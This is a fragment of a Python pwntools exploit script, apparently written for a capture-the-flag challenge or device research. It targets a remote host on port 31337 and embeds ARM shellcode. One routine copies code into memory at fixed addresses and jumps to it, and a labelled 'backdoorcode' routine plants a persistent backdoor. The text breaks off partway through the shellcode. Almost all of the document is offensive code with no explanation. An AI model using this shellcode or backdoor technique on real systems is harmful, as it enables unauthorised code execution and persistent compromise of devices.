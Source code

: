 ```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 8.210.44.156 --port 31337
from pwn import *
import requests, time, struct

# Set up pwntools for the correct architecture
context.update(arch='arm')
exe = './path/to/binary'

tcp_header_len = 58


shellcode2 = """

stmdb sp!, {r0-r7,lr}

@printf: 0x6002111C
mov r2, 0x111C
movt r2, 0x6002

@0x60076379
mov r0, 0x6379
movt r0, 0x6007
mov r1, r0

blx r2

ldmia sp!, {r0-r7,pc}

"""

shellcode2 = """
stmdb sp!, {r0-r11, lr}

movw r3, 0x1704
movt r3, 0x6002
movw r0, 0x0000
movt r0, 0x60b0

adr r1, register
mov r2, 0x1000
blx r3

movw r0, 0x0000
movt r0, 0x60b0
bx r0

register:
b register2

backdoorcode:
stmdb sp!, {r11, lr}


add r11, sp, #4
sub sp,sp, #0x10
str r0, [r11,#-0x14]

mov r1, 200
movw r4, 0x88c4
movt r4, 0x6005
```